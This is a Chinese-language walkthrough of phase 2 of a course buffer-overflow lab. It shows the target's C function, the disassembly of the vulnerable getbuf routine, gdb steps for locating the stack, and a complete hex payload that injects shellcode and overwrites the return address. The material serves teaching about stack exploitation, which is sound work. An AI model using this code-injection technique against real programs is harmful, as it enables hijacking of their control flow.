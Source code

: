 ```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们需要构造一个输入，使得 `getbuf` 函数返回后，程序的控制流跳转到我们注入的代码，并调用 `touch2` 函数。为此，我们需要注入一段代码，该代码将 cookie 的值 `mov` 给 `%edi` 作为参数，并将 `touch2` 函数的地址 `pushq` 压入栈中，最后 `ret` 返回，这样程序就会跳转到 `touch2` 函数执行。

```x86asm
; phase 2 injected code
0000000000000000 <.text>:
   0:	bf 66 ce c8 24       	mov    $0x24c8ce66,%edi
   5:	68 67 1c 40 00       	push   $0x401c67
   a:	c3                   	ret
```

除此之外，我们还需要用注入代码的起始位置地址（即储存字符串的地址）覆盖 `getbuf` 函数的返回地址。

```x86asm
0000000000401ba7 <getbuf>:
  401ba7:	f3 0f 1e fa          	endbr64
  401bab:	48 83 ec 18          	sub    $0x18,%rsp
  401baf:	48 89 e7             	mov    %rsp,%rdi
  401bb2:	e8 57 03 00 00       	call   401f0e <Gets>
  401bb7:	b8 01 00 00 00       	mov    $0x1,%eax
  401bbc:	48 83 c4 18          	add    $0x18,%rsp
  401bc0:	c3                   	ret
```

```bash
gdb ctarget
b *(getbuf + 8)
layout asm
layout regs
r
p $rsp
```

通过调试，我们发现栈指针 `%rsp` 指向 `0x5566c3e8` 且正是字符串的储存地址（调试细节此处未呈现）。因此，我们可以构造如下的输入：

```text
/* phase2.txt */
bf 66 ce c8 24       	/* mov    $0x24c8ce66, %edi */
68 67 1c 40 00       	/* push   $0x401c67 */
c3                   	/* ret */
00 00 00 00 00 00 00 00
00 00 00 00 00
e8 c3 66 55 00 00 00 00 /* Address of injected code */
```
